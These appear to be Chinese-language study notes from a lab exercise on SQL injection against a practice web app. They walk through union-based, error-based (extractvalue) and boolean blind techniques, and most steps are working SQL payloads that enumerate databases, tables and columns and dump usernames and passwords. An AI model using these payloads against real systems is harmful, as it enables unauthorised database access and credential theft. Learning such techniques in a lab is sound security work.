# 1.联合查询注入

## 1.1 环境测试

拿到环境，`ip+端口 / select.php访问`



然后进行一些简单的测试


大致结果为 输入1回显admin，2——pikachu ，3——test

这里直接回显sql语句了

其实我们可以根据结果大致判断，他的sql基本为（反正我看不出来）

```sql
select * From user where id = 1;
或者
select * From user where id = '1';

```

然后我们尝试去注入一下：

假设他是数字型，那么我们用如下sql语句就会产生回显或者不产生回显：

```sql
select * from user where id = 1 and 1=1 # 回显
select * from user where id = 1 and 1=2 #不回显
```





如果假设它是字符型，那么我们需要用 `'`号分割一下

```sql
select * from user where id = '1' and '1'='1'; # 回显

select * from user where id = '1' and '1'='2'; #不回显
```



这里我们看到了报错。可以判断他不是字符型而是数字型了。


## 1.2 判断列数——order by

输入`1 order by n` n为具体数字，当n 大于列数，报错；





可以看出来是5列


## 1.3 判断回显


结合union，将union左边置为空，判断右边的数据回显位置




## 1.4  获取当前数据库名——database()

在判断回显之后，将回显位置换位`database()`,如上，将2的位置换成database()



## 1.5 获取所有数据库名称

我们为了防止后面又limit函数的限制，我们一般用如下语句获得数据库名称

```sql
-1 union select 1,group_concat(schema_name) ,3,4 from information_schema.schemata;
```



## 1.6 获得数据库下面的表的名称

在1.5的基础上，我们用如下语句来获得数据库vul的表：

```sql
-1 union select 1,group_concat(table_name) ,3,4 from information_schema.tables where table_schema = 'vul';
```



## 1.7 获取表下的字段的名称

在1.6的基础上，我们用如下语句来获得数据库vul的表users下的字段信息：

```sql
-1 union select 1,group_concat(column_name) ,3,4 from information_schema.columns where table_schema = 'vul' and table_name = 'users';
```




## 1.8 获取字段信息

在1.7的基础上，我们用如下语句来获得数据库vul的表users下的字段信息，两个字段信息一起查询中间用'~'隔开：

```sql
-1 union select 1,group_concat(username,'~',password),3,4 from vul.users;
```




# 2.报错注入

实验环境 `ip+端口 / select5.php访问`

## 2.1 判断注入点

输入 2-1 或者'2-1'有回显，说明存在注入



## 2.2 判断注册类型

主要是判断是字符型还是数字型

输入1'拿到回显的错误



```shell
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' LIMIT 0,1' at line 1
SELECT * FROM users WHERE id = 1' LIMIT 0,1
```

截取重要部分'' LIMIT 0,1'

除去将错误修饰的单引号' LIMIT 0,1

可以发现1后面的单引号'产生了报错，而我们输入的'2-1'并未出现闭合效果，判断是数字类型的注入

盲猜sql语句是：

```sql
select * from users where id = $id
```

接下来用报错获取信息。

## 2.3 获取当前数据库版本

```sql
1 and (extractvalue(1,concat(0x7e,(select version()),0x7e))) #
```



## 2.4 获取当前的数据库名

```sql
1 and (extractvalue(1,concat(0x7e,(select database()),0x7e))) #
```




## 2.5 获取表名

```sql
1 and (extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema = 'vul'),0x7e))) #
```



## 2.6 获取字段名

```sql
1 and (extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema = 'vul' and table_name = 'users'),0x7e))) #
```



## 2.7 获取字段信息


# 3.布尔盲注

若页面无法返回sql查询内容，但是正确和错误语句返回结果不一样的时候可以用布尔盲注

## 3.1判断注入点

同2.1

## 3.2 判断数据库名长度

```sql
 #正常回显
 and length(database())>2 #
```





长度为3


## 3.3 获取数据库名

二分法查找，多次尝试

```sql
and ascii(substr(database(),1,1))>120#
```

## 3.4 获取表的数量

```sql
and (select count(*) from information_schema.tables where table_schema = 'vul')>2 #
```


## 3.5获取表名

```sql
and length((select table_name from information_schema.tables where table_schema = 'vul' limit 1,1))>2#
and ascii(substr((select table_name from information_schema.tables where table_schema = 'vul' limit 1,1),1,1))>120#
```



## 3.6 获取列信息

```sql
and (select count(*) from information_schema.columns where table_schema = 'vul' and table_name = 'users')=4#
and length((select column_name from information_schema.columns where table_schema = 'vul' and table_name = 'users' limit 0,1))=2#
```





## 3.7 获取列名


二分判断

```sql
and ascii(substr((select column_name from information_schema.columns where table_schema = 'vul' and table_name = 'users' limit 1,1),1,1))=117#
```




## 3.8  获取列数据

```sql
and ascii(substr((select password from vul.users limit 0,1),1,1))=101#
```

